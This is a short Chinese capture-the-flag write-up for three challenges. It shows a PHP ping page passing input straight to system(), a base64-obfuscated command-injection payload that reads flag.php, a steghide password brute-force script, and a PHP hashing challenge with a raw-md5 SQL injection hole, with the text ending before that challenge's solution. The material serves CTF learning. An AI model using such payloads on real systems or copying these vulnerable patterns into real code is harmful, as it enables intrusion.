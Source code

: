 ###### 主动

```php
<?php
highlight_file("index.php");

if(preg_match("/flag/i", $_GET["ip"]))
{
    die("no flag");
}

system("ping -c 3 $_GET[ip]");

?> 
```

用;截断，然后用base64构造cat flag.php即可：

```
ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

```
<!--?php $flag = "flag{I_like_qwb_web}"; -->
```

###### upload

给了个流量包，追踪tcp流发现上传了一张叫steghide.jpg的图片，写个脚本读取字典，用steghide爆破即可：

```python
import os
f = open('pass.txt')
for i in f.readlines():
    os.system('steghide extract -sf 1.jpg -p %s'%i[:-1])
```

```
flag{te11_me_y0u_like_it}
```

###### Funhash

```php+HTML
<?php
include 'conn.php';
highlight_file("index.php");
//level 1
if ($_GET["hash1"] != hash("md4", $_GET["hash1"]))
{
    die('level 1 failed');
}

//level 2
if($_GET['hash2'] === $_GET['hash3'] || md5($_GET['hash2']) !== md5($_GET['hash3']))
{
    die('level 2 failed');
}

//level 3
$query = "SELECT * FROM flag WHERE password = '" . md5($_GET["hash4"],true) . "'";
$result = $mysqli->query($query);
$row = $result->fetch_assoc(); 
var_dump($row);
$result->free();
$mysqli->close();


?> 
```